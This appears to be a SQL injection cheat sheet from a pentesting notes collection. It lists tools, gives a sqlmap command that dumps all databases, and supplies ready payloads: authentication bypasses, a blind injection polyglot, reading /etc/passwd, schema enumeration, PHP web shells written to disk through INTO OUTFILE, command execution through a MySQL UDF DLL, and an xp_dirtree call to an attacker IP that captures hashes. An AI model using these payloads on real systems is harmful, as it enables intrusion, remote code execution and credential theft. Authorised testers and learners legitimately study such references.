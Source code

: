 - https://www.websec.ca/kb/sql_injection#Extra_About
  - https://docs.google.com/document/d/1z2ozmSfUtT_3RBUM_1FFpTEYj7yKoGBpPlASz_iShsg/edit
- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

**Tools**

- SqlMap:
    ```
    sqlmap -r sqlmap.req --level=5 --risk=3 --dump-all​
    ```
- AutoSQLi: <https://github.com/jesuiscamille/AutoSQLi>
- SQLiDumper: <https://www.cybrary.it/0p3n/pentesting-sqli-dumper-v8-tool/>
- Automatic SQL injection with Charles and sqlmap api
  - <http://0r1.me/SQLiScanner/>
  - <https://github.com/0xbug/SQLiScanner>

**Payload**

- Combines blind command injection and blind sql injection (mysql) in one payload (works with no quotes/single quotes and double quotes):
  - https://mobile.twitter.com/bl4ckh4ck5/status/1100167033407320065
    ```sql
    /*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
    ```
- WebShell over MySQL: `SELECT '<?php echo shell_exec($_GET['c']); ?>' INTO OUTFILE '/var/www/html/example.php'`
- User Defined Functions (UDF) (sqlmap/udf/mysql)
    ```sql
    SELECT @@plugin_dir;
    PowerShell$ Convert-Dll -DllPath lib_mysqludf_sys.dll -OutputPath bytes.txt
    SELECT CHAR(64,64,....) INTO OUTFILE '<@@plugin_dir>/lib_mysqludf_sys.dll' FIELDS ESCAPED BY '';
    CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.dll';
    SELECT sys_eval('whoami');
    ```
- Simple payloads:
    ```sql
    ' or 1=1 LIMIT 1 --
    ' or 1=1 LIMIT 1 -- -
    ' or 1=1 LIMIT 1#
    'or 1#
    ' or 1=1 --
    ' or 1=1 -- -
    ```
- Order by to get column count: `1337 order by N`
- Read file: `LOAD_FILE('/etc/passwd')`
- Read from information schema:
    ```sql
    union select 1,2,group_concat(distinct table_schema separator ',') from information_schema.tables LIMIT 1,1
    union select 1,2,group_concat(distinct table_name separator ',') from information_schema.tables where table_schema = 'security' LIMIT 1,1
    ```
- Write to file: `select 1,2,3,4,"<?php echo system($_GET['cmd']); ?>",6 INTO OUTFILE 'C:\htdocs\webroot\shell.php'`
- SQL Server
  - Run Responder and do following to capture hashes: `EXEC(master..xp_dirtree('\\(ATTACKER IP ADDRESS)\foo')--`
  - Add a trigger to do a malicious action (price 0)
